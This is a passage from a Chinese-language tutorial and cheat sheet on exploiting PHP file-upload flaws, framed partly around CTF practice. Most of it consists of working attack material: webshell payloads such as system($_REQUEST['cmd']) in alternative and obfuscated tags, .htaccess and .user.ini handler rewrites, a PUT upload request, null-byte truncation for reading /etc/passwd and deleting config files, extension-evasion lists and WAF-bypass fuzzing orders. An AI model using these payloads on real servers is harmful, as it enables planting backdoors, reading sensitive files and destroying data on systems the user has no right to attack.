   只有名叫 evil.jpg 的文件会被当作 PHP 执行，其他正常的 .jpg 图片依然显示为图片，动作更隐蔽。

   ```apache
   <FilesMatch "evil.jpg">
       SetHandler application/x-httpd-php
   </FilesMatch>
   ```
3. php_value (PHP 指令修改)
   如果 PHP 是以 Apache 模块（mod_php）的方式运行的，你可以直接在 .htaccess 中修改 PHP 的底层配置（类似修改 php.ini）。
   效果：目录下只要有任何正常的 .php 文件被访问，就会悄悄把你的图片马 1.png 包含进去并执行。

```apache
php_value auto_prepend_file "1.png"
```





## 利用文件上传竞争条件

现代框架对此类攻击的防御能力更强。它们通常不会将文件直接上传到文件系统上的预定目标位置。相反，它们会采取一些预防措施，例如先将文件上传到一个临时的沙盒目录，并随机化文件名以避免覆盖现有文件。然后，它们会对这个临时文件进行验证，并且只有在确认安全的情况下才会将其传输到目标位置。

也就是说，开发者有时会独立于任何框架，自行实现文件上传处理。这样做不仅相当复杂，而且可能引入危险的竞态条件，使攻击者能够完全绕过最强大的验证机制。

例如，有些网站会将文件直接上传到主文件系统，如果文件未通过验证，则会将其删除。这种行为在依赖杀毒软件等工具检查恶意软件的网站上很常见。虽然这个过程可能只需要几毫秒，但在文件存在于服务器的短暂时间内，攻击者仍然有可能执行该文件。

这些漏洞通常非常隐蔽，除非你能找到泄露相关源代码的方法，否则很难在黑盒测试中检测到它们。

### 基于 URL 的文件上传中的竞争条件

在允许通过提供 URL 上传文件的功能中，也可能出现类似的竞争条件。这种情况下，服务器必须先从互联网上下载文件并创建本地副本，之后才能执行任何安全校验。

由于文件是通过 HTTP 加载的，开发者无法使用框架自带的安全文件校验机制。相反，他们可能会手动编写逻辑来临时存储和校验文件，而这类实现往往安全性不够高。
例如，如果文件被放到一个随机名称的临时目录中，理论上攻击者是无法利用竞争条件的。如果攻击者不知道目录名称，就无法请求该文件来触发执行。
但另一方面，如果这个随机目录名是用 PHP 的 uniqid () 这类伪随机函数生成的，那么它有可能被暴力破解。
为了让这类攻击更容易成功，你可以尝试延长文件处理的时间，从而扩大暴力破解目录名的时间窗口。
一种实现方法是上传更大的文件。如果服务器是分块处理文件的，你可以构造一个恶意文件：将攻击 payload 放在最前面，后面跟上大量任意的填充字节，以此来利用这一机制。

## 使用 PUT 上传文件

值得注意的是，某些 Web 服务器可能配置为支持 PUT 请求。如果没有适当的防御措施，即使 Web 界面无法提供上传功能，这也可能会为恶意文件上传提供另一种途径。

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

您可以尝试向不同的端点发送 OPTIONS 请求，以测试是否有任何端点支持 PUT 方法。

## PHP 版本 < 5.3.4 零字符截断

### 场景一：直接在上传的文件名中截断（绕过白名单后缀）

这是最纯粹的文件上传截断方式。假设后端的逻辑是：获取用户上传的文件名 -> 提取最后一个 . 后面的字符作为后缀 -> 检查是否为 jpg/png -> 如果是，直接用原文件名保存。

漏洞代码示例 (PHP)：

```php
$filename = $_FILES['upload_file']['name'];
// 假设此处有校验后缀的逻辑，只允许 .jpg
// 校验通过后直接保存：
move_uploaded_file($_FILES['upload_file']['tmp_name'], 'uploads/' . $filename);
```

攻击手法：
在 Burp Suite 中抓包，修改 filename 字段。
将 filename="shell.php" 修改为 filename="shell.php[占位符].jpg"。
然后去 Hex 面板 将占位符修改为 00。

底层原理解析：

PHP 校验层：PHP 把 shell.php\0.jpg 当作一个完整的字符串。它提取到的后缀是 .jpg，完美通过白名单校验。

C 语言落地层：move_uploaded_file 底层调用 C 函数，读到 shell.php 后面的 0x00 时直接停止读取。最终在硬盘上生成的文件名为 shell.php。

### 场景二：本地文件包含漏洞 (LFI) 的后缀截断（最经典的延伸）

这是 0x00 截断在 CTF 中最常见的另一种考法，不涉及上传，而是涉及文件读取。很多系统在包含文件时，为了“安全”或“方便”，会强行在用户输入后面拼接一个后缀。

漏洞代码示例 (PHP)：

```
$page = $_GET['page'];
include("templates/" . $page . ".html");
```

（开发者本意是只允许包含 templates 目录下的 .html 模板文件）

攻击手法：
如果你想读取根目录下的敏感文件（比如 Linux 的 /etc/passwd，或者上级目录的 config.php），正常输入 ?page=../../../../etc/passwd 会变成去寻找 /etc/passwd.html，导致文件找不到。
利用截断：输入 ?page=../../../../etc/passwd%00

底层原理解析：
拼接后的字符串是 templates/../../../../etc/passwd\0.html。底层 C 语言函数 fopen() 遇到 \0 截断，丢弃了后面的 .html，成功读取并包含了 /etc/passwd。
(注意：因为这是 GET 请求，所以可以直接在 URL 中输入 %00，服务器会自动 URL 解码为 0x00，不需要去 Hex 面板改)。

### 场景三：任意文件删除/下载/读取（绕过固定后缀限制）

与 LFI 类似，如果系统提供了文件下载或删除功能，且强行绑定了某种后缀限制，同样可以利用截断来突破。

漏洞代码示例 (任意文件删除)：

```php
$log_name = $_GET['log'];
unlink("logs/" . $log_name . ".log"); // 强行限制只能删除 .log 文件
```

攻击手法：
攻击者想删除网站的安装锁文件或核心配置文件造成破坏：
?log=../install.lock%00 或 ?log=../config.php%00

底层原理解析：
unlink() 函数同样受 C 语言底层影响，遇到空字节截断，无视了 .log 后缀，将目标文件直接删除。

### 总结:

| **攻击场景**            | **注入位置**               | **注入方式 (极度重要)**   | **目标底层函数**                             |
| ----------------------------- | -------------------------------- | ------------------------------- | -------------------------------------------------- |
| **文件上传 (路径拼接)** | POST 表单数据 (如 `save_path`) | **Hex 面板修改** (`00`) | `move_uploaded_file()`                           |
| **文件上传 (直接改名)** | HTTP 头 `filename="xxx"`       | **Hex 面板修改** (`00`) | `move_uploaded_file()`                           |
| **本地文件包含 (LFI)**  | GET/POST 参数 (如 `?page=`)    | **直接输入 `%00`**      | `include()`, `require()`                       |
| **任意文件操作**        | GET/POST 参数 (如 `?file=`)    | **直接输入 `%00`**      | `unlink()`, `fopen()`, `file_get_contents()` |


# 绕过PHP的内容检查

## 一、 大小写绕过

很多简单的检测代码（如 `strpos($content, 'php')`）是区分大小写的，但 PHP 解释器在识别标签时却**不区分大小写**。

将原本的 `<?php` 修改为大写或混合大小写。

- `<?PHP system($_GET['cmd']); ?>`
- `<?PhP system($_GET['cmd']); ?>`
- **适用场景**：后端检测代码未使用 `strtolower()` 转换为小写后再检测。

## 二、使用替代标签 (Alternative Tags)

如果大小写也被拦截，我们需要彻底抛弃 `<?php ... ?>` 这种标准写法

### 1. 短标签 (Short Open Tags)

完全省略 `php` 关键字。

- **Payload**：

  `<? echo "Hello CTF"; ?>`

  或者直接使用等号（相当于 echo）：

  `<?=system($_REQUEST['cmd']);?>`
- > **⚠️ 触发条件提醒**：
  >
  > 这需要目标 PHP 环境的 `php.ini` 中开启了 `short_open_tag = On`。在很多 CTF 题目中，为了增加解题方式，出题人通常会开启它。
  >

### 2. ASP 风格标签 (ASP-style Tags)

使用类似 ASP 的 `<% ... %>` 标签来解析 PHP 代码。

- **Payload**：

  `<% system($_REQUEST['cmd']); %>`

  或者输出型：

  `<%=system($_REQUEST['cmd']);%>`
- > **⚠️ 触发条件提醒**：
  >
  > 这需要 `php.ini` 中开启了 `asp_tags = On`。**注意：此特性在 PHP 7.0 之后已经被彻底废弃移除**。但既然你面对的是 PHP 5.x 环境，这个选项极大概率是可用的！
  >

### 3. Script 标签绕过 (长标签)

这种写法在 PHP 7.0 之前也是合法的，如果检测逻辑只盯着 `<?` 这个符号，可以用这种 HTML 风格的标签绕过。

- **Payload**：

  `<script language="php">system($_REQUEST['cmd']);</script>`
- *(如果 `php` 被拦截，可以结合大小写：`<script language="PhP">`)*

## 三、 函数拦截绕过

有时候，WAF 不仅拦截 `<?php` 标签，还会拦截代码体内部的 `phpinfo()` 等包含 `php` 的函数名。这时候需要利用 PHP 的动态特性进行字符串拼接和执行。

### 1. 字符串拼接与变量函数执行

PHP 允许将函数名赋值给变量，然后通过变量来调用函数。

- **Payload**：


  ```php
  <?=
  $a = 'p'.'h'.'p'.'i'.'n'.'f'.'o';
  $a();
  ?>
  ```

### 2. 异或 (XOR) 或取反 (NOT) 运算免杀

如果所有英文字母都被拉黑了，可以使用非字母数字的字符通过位运算生成需要的代码。这属于无字母数字 WebShell 的范畴。

- **简单取反示例**：将 `phpinfo` 进行 URL 编码和取反计算后，在服务器端动态还原。

  PHP

  ```php
  <?=(~%8F%97%8F%96%91%99%90)();?>
  ```

## 四、 技巧总结与速查 (Cheat Sheet)

面对“拦截 `php` 字眼”的内容检测，请按以下顺序进行 Fuzzing (模糊测试)：

| **绕过策略**     | **Payload 示例**                          | **适用环境 / 备注**                      |
| ---------------------- | ----------------------------------------------- | ---------------------------------------------- |
| **大小写混合**   | `<?PHP phpinfo(); ?>`                         | 过滤不严谨，未使用正则或忽略大小写。           |
| **输出型短标签** | `<?=system('whoami');?>`                      | 依赖 `short_open_tag=On`。最推荐优先测试。   |
| **标准短标签**   | `<? system('whoami'); ?>`                     | 依赖 `short_open_tag=On`。                   |
| **ASP 标签**     | `<% system('whoami'); %>`                     | 依赖 `asp_tags=On`，**PHP 5.x 神器**。 |
| **Script 标签**  | `<script language="PhP">...`                  | 绕过对 `<?` 的尖括号匹配，PHP < 7.0 适用。   |
| **字符串拼接**   | `<? $f='p'.'h'.'p'.'i'.'n'.'f'.'o'; $f(); ?>` | 绕过对具体函数名的正则匹配。                   |


# PHP 文件上传漏洞最佳实践

## 一、 基础校验绕过 (前端与报文头)

此阶段的目标是突破最外层的轻量级防御，确保恶意载荷能够触达服务器端的处理逻辑。

1. 前端 JavaScript 校验绕过
   在浏览器端选择合法的白名单文件，通过代理工具拦截 HTTP 请求，在数据包中修改文件扩展名。
   演示：将拦截到的报文头 `filename="test.jpg"` 修改为 `filename="shell.php"`。
   原理：服务器过度信任客户端输入，未在后端重新验证文件类型。
2. MIME 类型与文件头伪造 (Magic Bytes)
   修改 HTTP 请求头中的 Content-Type，并在文件二进制内容的起始位置注入合法的图像幻数。
   演示：`

   ```
   Content-Type: image/jpeg

   GIF89a
   <?php phpinfo(); ?>
   ```

   原理：后端防御代码（如 PHP 的 `$_FILES['file']['type']` 或 `getimagesize()`）被伪造的表象数据欺骗，未对文件结构进行深度的二进制校验。

## 二、 扩展名黑白名单对抗 (Extension Evasion)

当后端部署了扩展名过滤机制时，需根据其是“黑名单”还是“白名单”采取不同的对抗策略。

1. **大小写混淆**：
   演示：`shell.PhP` 或 `shell.pHp`
   原理：针对 Windows 操作系统底层对大小写不敏感的特性，或后端正则表达式遗漏忽略大小写修饰符。
2. **后缀替换**：
   演示：`.php3 .php4 .php5 .php6 .php7 .php8 .phtml .pht .inc .phpt .phar`

   > [!NOTE]
   >
   > phtml的概率最高
   >

   原理：利用黑名单字典的遗漏。在诸多 Web 中间件（如 Apache 的默认 `AddType` 配置）中，这些后缀均会被映射给 PHP 解释器。
3. **操作系统命名特性自动清洗 (限 Windows 后端)**：
   演示：追加空格 `shell.php `、追加点号 `shell.php.`、追加 NTFS 数据流 `shell.php::$DATA`。原理：Windows 文件系统 API 不允许文件名以点或空格结尾，或将 `::$DATA` 视为数据流标识。在文件写入磁盘时，系统会自动剥离这些字符，使后缀还原为 `.php`。
4. **0x00 空字节截断 (PHP < 5.3.4**)：
   演示：在 Burp Suite 的 Hex 编辑器中，将 `filename="shell.php+.jpg"` 中的 `+`（十六进制 `2b`）修改为 `00`。
   原理：利用底层 C 语言处理字符串时以 `\0` 作为结束符的特性，迫使保存文件的底层函数在 `.php` 处截断，丢弃后续的白名单后缀。
5. **模糊测试允许上传的后缀**
   PayloadsAllTheThings 提供了 [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) 和 [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) Web 应用程序的扩展列表。我们还可以使用 SecLists 提供的常用 [Web 扩展列表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)。
6. **双扩展名绕过**

   > 使用[此词表](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)对上传表单进行模糊测试，以找出上传表单列入白名单的扩展名。
   >

   演示: `shell.jpg.php`
   原理：利用后端脚本匹配的漏洞
7. **反向双扩展名绕过**

   演示: ``shell.php.jpg`
   原理: 利用配置文件的白名单匹配漏洞
8. **字符注入绕过**

   ```txt
   %20
   %0a
   %00
   %0d0a
   /
   .
   .\
   …
   ```

   演示: ( shell.php%00.jpg ) 适用于 PHP 5.X 或更早版本的服务器，因为它会导致 PHP 服务器在 ( %00 ) 之后结束文件名，并将其存储为 ( shell.php )
9. **中间件配置文件重写**：
   Apache：上传 `.htaccess` 文件，内容为 `AddType application/x-httpd-php .jpg`。随后上传 `shell.jpg`。
   Nginx/PHP-FPM：上传 `.user.ini` 文件，内容为 `auto_prepend_file=shell.jpg`。随后访问该目录下的任意常规 `.php` 文件触发包含。

## 三、 内容过滤与 WAF 规避 (Content Obfuscation)

当扩展名绕过成功，但报文主体被 Web 应用防火墙 (WAF) 或杀毒引擎拦截时，需对 PHP 代码进行深度混淆。

1. **替代语法与标签绕过**：
   避开标准的 `<?php` 签名，利用 PHP 解析器的向下兼容特性。
   代码示例：

   ```
   // 短开放标签 (依赖 short_open_tag = On)
   <? echo 'success'; ?>

   // 输出型短标签
   <?=system('id');?>

   // ASP 风格标签 (PHP 5.x 适用，依赖 asp_tags = On)
   <% system('id'); %>
   ```
2. **动态函数执行与字符串混淆**：
   原理：将高危函数名（如 `system`、`eval`）打散，利用 PHP 的变量函数调用特性在运行时重组，规避静态正则表达式匹配。
   代码示例：

   ```
   // 字符串拼接
   <?php
   $func = 's'.'y'.'s'.'t'.'e'.'m';
   $func('id');
   ?>

   // 利用回调函数隐蔽执行
   <?php
   array_map('system', array('id'));
   ?>
   ```

## 四:模糊测试文件上传路径

词表

## 五、 高阶逻辑缺陷与盲传利用 (Advanced Logic Exploitation)

当文件被强制重命名（如哈希化）或无法直接知晓文件存储路径时，需结合系统业务逻辑缺陷进行利用。

1. **结合本地文件包含 (LFI)**：
   演示: 上传含有恶意代码的图片，获取其重命名后的相对路径，结合系统存在的 LFI 漏洞点进行调用。
   **原理**：PHP 的 `include` 函数会无视文件扩展名，强制解析文件内容中的 PHP 标签。
2. **Nginx/IIS CGI 解析漏洞**：
   演示: 上传合法的图像马 `1.jpg`，在浏览器访问时主动追加虚拟的 PHP 后缀，如 `http://target.com/uploads/1.jpg/.php`。
   原理：利用 PHP 的 `cgi.fix_pathinfo=1` 特性。当找不到 `.php` 文件时，PHP 解析器会向上层目录回溯，错误地将 `1.jpg` 作为脚本执行。
3. **条件竞争 (Race Condition)**：
   演示: 针对“先保存落地，后进行查杀删除”的逻辑模型。利用高并发工具同时发送上传请求与文件访问请求。
   原理：在文件落地与被删除的毫秒级时间差内，抢先执行文件。通常该载荷的功能是向隐蔽目录写入一个持久化的新后门。
